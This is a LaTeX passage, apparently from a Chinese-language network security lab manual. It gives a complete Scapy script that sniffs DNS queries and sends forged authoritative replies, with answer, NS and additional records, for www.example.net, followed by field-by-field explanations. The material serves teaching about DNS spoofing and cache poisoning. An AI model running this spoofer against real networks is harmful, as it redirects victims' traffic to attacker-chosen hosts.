 \begin{lstlisting}
#!/usr/bin/python
from scapy.all import *
 
def spoof_dns(pkt):
  if (DNS in pkt and 'www.example.net' in pkt[DNS].qd.qname):

    # Swap the source and destination IP address
    IPpkt = IP(dst=pkt[IP].src, src=pkt[IP].dst)

    # Swap the source and destination port number 
    UDPpkt = UDP(dport=pkt[UDP].sport, sport=53)

    # The Answer Section
    Anssec = DNSRR(rrname=pkt[DNS].qd.qname, type='A',               
                 ttl=259200, rdata='10.0.2.5')

    # The Authority Section
    NSsec1 = DNSRR(rrname='example.net', type='NS',
                   ttl=259200, rdata='ns1.example.net')
    NSsec2 = DNSRR(rrname='example.net', type='NS',
                   ttl=259200, rdata='ns2.example.net')

    # The Additional Section
    Addsec1 = DNSRR(rrname='ns1.example.net', type='A', 
                    ttl=259200, rdata='1.2.3.4')
    Addsec2 = DNSRR(rrname='ns2.example.net', type='A',
                    ttl=259200, rdata='5.6.7.8')

    # Construct the DNS packet
    DNSpkt = DNS(id=pkt[DNS].id, qd=pkt[DNS].qd, aa=1, rd=0, qr=1,     (*@\ding{192}@*)
                 qdcount=1, ancount=1, nscount=2, arcount=2,
                 an=Anssec, ns=NSsec1/NSsec2, ar=Addsec1/Addsec2)

    # Construct the entire IP packet and send it out
    spoofpkt = IPpkt/UDPpkt/DNSpkt
    send(spoofpkt)

# Sniff UDP query packets and invoke spoof_dns().                		
pkt = sniff(filter='udp and dst port 53', prn=spoof_dns)
\end{lstlisting}
 

行~ 构造了DNS包的负载，包含了DNS头和数据内容。DNS负载中的每个字段的解释如下：

 
\begin{itemize}[noitemsep]
\item \texttt{id}: 传输ID；需要与请求中的一致。
\item \texttt{qd}: 请求域名；需要与请求中的一致。
\item \texttt{aa}: 权威答复标志 (1 代表响应中包含权威答复)。
\item \texttt{rd}: 递归查询标志 (0 代表禁用递归查询)。
\item \texttt{qr}: 请求或响应比特 (1 代表响应)。
\item \texttt{qdcount}: 请求域名的个数。 
\item \texttt{ancount}: 回复记录的个数。
\item \texttt{nscount}: 授权记录的个数。
\item \texttt{arcount}: 附加记录的个数。 
\item \texttt{an}: 回复部分 
\item \texttt{ns}: 授权部分
\item \texttt{ar}: 附加部分
\end{itemize}
  


